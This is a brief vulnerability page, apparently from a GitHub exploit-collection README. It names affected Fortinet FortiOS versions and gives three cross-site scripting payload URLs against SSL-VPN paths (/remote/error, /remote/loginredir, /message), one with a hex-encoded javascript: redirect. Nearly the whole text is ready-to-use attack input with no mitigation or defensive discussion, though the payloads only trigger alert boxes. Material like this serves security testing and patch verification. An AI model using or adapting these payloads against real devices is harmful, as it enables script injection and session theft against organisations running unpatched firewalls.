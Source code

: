 漏洞影響
--------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

XSS
---

    /remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E
    /remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29
    /message?title=x&msg=%26%23<svg/onload=alert(1)>;